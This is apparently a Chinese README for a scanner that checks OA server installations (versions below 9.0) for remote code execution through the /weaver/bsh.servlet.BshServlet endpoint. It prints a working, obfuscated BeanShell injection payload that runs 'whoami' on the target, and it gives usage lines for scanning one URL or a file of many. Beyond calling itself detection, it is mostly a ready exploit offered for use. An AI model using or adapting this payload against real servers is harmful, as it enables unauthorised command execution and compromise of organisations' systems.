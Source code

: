 ## 致远OA_RCE检测
存在漏洞的版本
* <9.0

漏洞路径
```txt
/weaver/bsh.servlet.BshServlet
```

利用payload
```txt
bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.outp ut=raw'
```

使用说明
```
python scan.py 1 [url]
python scan.py 2 [file]
```

**结果**
![](https://s2.ax1x.com/2019/09/21/nzfKnH.png)

图片看不了请手动观看：https://s2.ax1x.com/2019/09/21/nzfKnH.png






